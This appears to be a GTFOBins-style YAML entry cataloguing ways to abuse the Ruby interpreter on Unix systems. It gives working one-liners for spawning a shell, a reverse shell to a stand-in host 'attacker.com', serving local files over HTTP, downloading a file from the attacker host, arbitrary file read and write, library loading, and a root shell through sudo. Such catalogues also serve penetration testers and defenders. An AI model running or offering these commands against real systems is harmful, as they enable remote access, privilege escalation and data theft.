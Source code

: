 ```yaml
---
functions:
  execute-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export RFILE=/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("data") }'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
---
```

